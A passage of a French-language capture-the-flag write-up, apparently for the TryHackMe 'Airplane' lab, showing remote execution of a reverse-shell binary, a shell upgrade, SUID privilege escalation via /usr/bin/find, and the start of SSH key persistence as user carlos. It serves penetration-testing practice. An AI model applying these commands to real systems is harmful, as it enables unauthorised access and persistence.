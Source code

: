 6. Définir le fichier exécutable

```
set remote exec-file /tmp/binary.elf
```

7. Exécuter le fichier sur la cible

> Assurez-vous que votre listener est configuré sur le numéro de port choisi à l'étape 1.

```
run
y
```

![Reverse shell executed](/images/THM-Airplane/revshell_executed.png)

Sur le listener, nous recevons une connexion en tant que `hudson`.

![Foothold](/images/THM-Airplane/foothold.png)

Nous améliorons notre shell avec les commandes suivantes

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  
ctrl + z  
stty raw -echo; fg
stty rows 38 columns 116
```

![Shell Upgrade](/images/THM-Airplane/shell_upgrade.png)

Le drapeau utilisateur n'est pas sur ce compte, nous devons donc accéder au deuxième compte. 

### Mouvement latéral (shell en tant que carlos)

Nous exécutons linpeas et constatons que `/usr/bin/find` a le bit SUID défini et qu'il appartient à `carlos`.

![find binary with SUID bit set](/images/THM-Airplane/find_binary.png)

Sur [GTFObins](https://gtfobins.github.io/gtfobins/find/), nous trouvons un payload permettant d'élever nos privilèges et le drapeau utilisateur est dans `/home/carlos`.

```
/usr/bin/find . -exec /bin/bash -p \; -quit
```

![user flag](/images/THM-Airplane/user_flag.png)

Avec `ls -la` nous observons le répertoire `.ssh`. Nous pouvons ajouter une clé ssh à `/home/carlos/.ssh/authorized_keys` pour être en mesure de se connecter via SSH en tant que `carlos`.

Nous générons une paire de clés avec 

```
ssh-keygen -t rsa -b 2048 -f carlos
```
